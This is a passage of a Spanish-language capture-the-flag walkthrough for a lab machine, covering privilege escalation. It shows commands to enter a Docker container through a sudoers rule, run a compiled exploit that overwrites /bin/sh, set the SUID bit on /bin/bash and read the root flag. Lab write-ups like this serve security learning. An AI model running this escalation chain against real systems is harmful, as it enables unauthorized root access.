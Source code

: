 Los parámetros del go build son para que el archivo resultante pese lo menos posible, para que sea mas rápido de transferir.

Ahora iniciamos un contenedor docker con bash en la máquina víctima con el permiso de sudoers:

```bash
noah@thenotebook:~$ sudo -u root /usr/bin/docker exec -it webapp-dev01 /bin/bash

root@d19d83405fa2:/opt/webapp# 
```

Ahora tranferimos el compilado al contenedor con un servidor en python:

![image](https://user-images.githubusercontent.com/67548295/128600304-033fdbfd-a9f6-47a4-8ae2-979693fcb9cd.png)

Le damos permisos de ejecución al exploit y lo ejecutamos:

```bash
root@d19d83405fa2:/opt/webapp# chmod +x /tmp/exploit && /tmp/exploit

[+] Overwritten /bin/sh successfully

```
Ahora rapidamente entramos a la máquina victima con otra sesión de SSH con la id_rsa que habiamos encontrado previamente.

Y ahora ejecutamos un contenedor docker con el permiso de sudoers, pero ahora con /bin/sh.

Y el comando que habiamos introducido en el exploit se ejecuta en la máquina victima:

![image](https://user-images.githubusercontent.com/67548295/128601422-66dfb3cd-fdcd-4e91-9e12-7009cad405bd.png)

Da ese pequeño error al ejecutar el contenedor con /bin/sh, pero es necesario para que se ejecute el exploit.

Yo habia puesto en el exploit que se asignara permisos SUID a la /bin/bash, vamos a ver si se ha ejecutado:

```bash
noah@thenotebook:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
```

Y vemos que sí, hay una 's' en los permisos, eso significa que es SUID.

Una vez aquí ya podemos migrar al usuario Root y ver la flag root.txt

```bash
noah@thenotebook:~$ bash -p
bash-4.4# whoami; id; cat /root/root.txt

root

uid=1000(noah) gid=1000(noah) euid=0(root) groups=1000(noah)

d0140XXXXXXXXXXXXXXXXXXXXXXXX9d0f
```

# Resumen 
